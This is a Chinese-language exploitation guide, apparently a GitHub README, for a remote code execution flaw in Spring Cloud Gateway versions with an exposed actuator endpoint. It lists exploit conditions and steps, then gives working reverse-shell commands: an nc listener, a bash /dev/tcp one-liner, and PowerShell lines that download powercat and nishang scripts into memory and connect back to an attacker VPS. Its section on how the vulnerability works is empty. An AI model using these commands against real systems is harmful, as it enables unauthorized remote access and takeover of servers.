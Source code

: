# SpringCloudGateway 漏洞利用

## 利用条件：

- Spring Cloud Gateway 启用和暴露 Gateway Actuator 端点
- Spring Cloud Gateway < 3.1.1
- Spring Cloud Gateway < 3.0.7

## 利用方法：

#### 步骤一：

` http://ip:端口/actuator/gateway/routes `

访问页面，可以看到路由配置信息。

#### 步骤二：

使用[脚本](url地址)执行RCE命令

![](img_url)

#### 步骤三：
	
反弹shell

vps开启nc监听：
```base
nc -lvp 2333
```
目标机器cmd执行：
linux：
```base
bash -i >& /dev/tcp/vpsIP/2333 0>&1
```
windows：

powercat反弹：
```base
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.1.4 -p 2333 -e cmd
```
TCP流量，远程下载无文件落地执行：
```base
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress vpsIP -port 2333
```
Udp流量,远程下载无文件落地执行
```base
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellUdp.ps1');Invoke-PowerShellUdp  -Reverse  -IPAddress  vpsIP -port 2333
```

## 漏洞原理：